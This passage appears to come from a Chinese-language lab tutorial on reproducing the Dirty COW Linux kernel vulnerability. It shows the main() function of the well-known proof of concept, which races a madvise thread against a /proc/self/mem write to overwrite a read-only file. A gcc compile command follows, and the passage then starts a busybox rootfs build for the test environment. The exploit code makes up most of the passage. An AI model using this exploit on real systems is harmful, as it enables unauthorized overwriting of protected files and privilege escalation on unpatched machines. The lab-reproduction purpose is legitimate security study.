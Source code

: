 ```c
int main(int argc,char *argv[])
{
/*
You have to pass two arguments. File and Contents.
*/
  if (argc<3) {
  (void)fprintf(stderr, "%s\n",
      "usage: dirtyc0w target_file new_content");
  return 1; }
  pthread_t pth1,pth2;
/*
You have to open the file in read only mode.
*/
  f=open(argv[1],O_RDONLY);
  fstat(f,&st);
  name=argv[1];
/*
You have to use MAP_PRIVATE for copy-on-write mapping.
> Create a private copy-on-write mapping.  Updates to the
> mapping are not visible to other processes mapping the same
> file, and are not carried through to the underlying file.  It
> is unspecified whether changes made to the file after the
> mmap() call are visible in the mapped region.
*/
/*
You have to open with PROT_READ.
*/
  map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
  printf("mmap %zx\n\n",(uintptr_t) map);
/*
You have to do it on two threads.
*/
  pthread_create(&pth1,NULL,madviseThread,argv[1]);
  pthread_create(&pth2,NULL,procselfmemThread,argv[2]);
/*
You have to wait for the threads to finish.
*/
  pthread_join(pth1,NULL);
  pthread_join(pth2,NULL);
  return 0;
}
```

编译PoC：

```sh
gcc -static -pthread dirtyc0w.c -o dirtyc0w
```

## rootfs

这里采用busybox手动构建。克隆busybox源码仓库，进行menuconfig配置：
